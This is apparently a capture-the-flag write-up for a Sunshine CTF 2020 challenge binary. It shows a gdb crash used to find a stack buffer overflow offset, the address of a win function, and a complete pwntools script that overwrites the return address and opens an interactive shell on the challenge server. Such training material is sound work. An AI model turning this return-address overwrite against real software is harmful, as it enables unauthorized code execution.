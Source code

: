 ```sh
(gdb) r 
Starting program: /mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020/chall_02 
Went along the mountain side.
throwaway
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x51515050 in ?? ()
```

As expected, the program crashed from trying to jump to a return address that didn't make sense. The program crashed at address `0x51515050`. Hex 51 is Q and hex 50 is P. (Remember this is little endian, which is why the results seem reversed). Now we know that the payload needs to start after 2 Ps in the string.

The place we want to get to is the address of the win function:

```assembly
(gdb) disassemble win
Dump of assembler code for function win:
   0x080484d6 <+0>:     push   %ebp
   ...
```

Full exploit:

```python
#!/usr/bin/env python3

from pwn import *

context.binary = ELF('./chall_02')

if args.REMOTE:
    io = remote('chal.2020.sunshinectf.org', 30002)
else:
    io = process(context.binary.path)

print(io.recvline())
io.sendline('throwaway')

buffer = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPP'
payload = p32(0x080484d6) # address of win function
exploit = flat(buffer, payload)


print("Sending: ", exploit)
io.sendline(exploit)

io.interactive()
```

Output:
```sh
meraxes@pantheon:/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020$ ./chall_02.py REMOTE
[*] '/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020/chall_02'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to chal.2020.sunshinectf.org on port 30002: Done
b'Went along the mountain side.\n'
Sending:  b'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPP\xd6\x84\x04\x08'
[*] Switching to interactive mode
$ cat flag.txt
```